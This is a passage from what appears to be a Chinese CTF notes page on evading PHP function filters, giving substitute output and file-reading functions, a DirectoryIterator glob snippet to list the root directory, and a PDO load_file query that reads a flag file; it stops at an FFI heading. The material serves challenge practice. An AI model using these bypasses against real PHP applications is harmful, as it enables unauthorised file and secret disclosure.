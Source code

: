 ### 输出目录函数绕过

如果题目过滤了print_r()，可以使用以下函数代替输出目录：

```php
var_dump();
var_export();
```

### 输出内容函数绕过

```php
highlight_file()
include()
show_source()
```

### 遍历绕过

当过滤了scandir()函数，我们无法知道当前目录下的文件时，可以用php的遍历来得知：

```php
?><?php
$a=new DirectoryIterator("glob:// /*");   //遍历根目录下所有文件
foreach($a as $f)
{
	echo ($f -> __toString().'  ');
}
```

## 数据库语句绕过

当所有的输出函数都被ban时，只能用数据库语句来输出文件内容

```php
try {
    $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
        'root');

    foreach ($dbh->query('select load_file("/flag36.txt")') as $row) {
        echo ($row[0]) . "|";
    }
    $dbh = null;
} catch (PDOException $e) {
    echo $e->getMessage();
    exit(0);
}
```

## FFI绕过

FFI只有php7.4以上的版本才有，换句话说，只适用于php7.4版本往上。
定义：
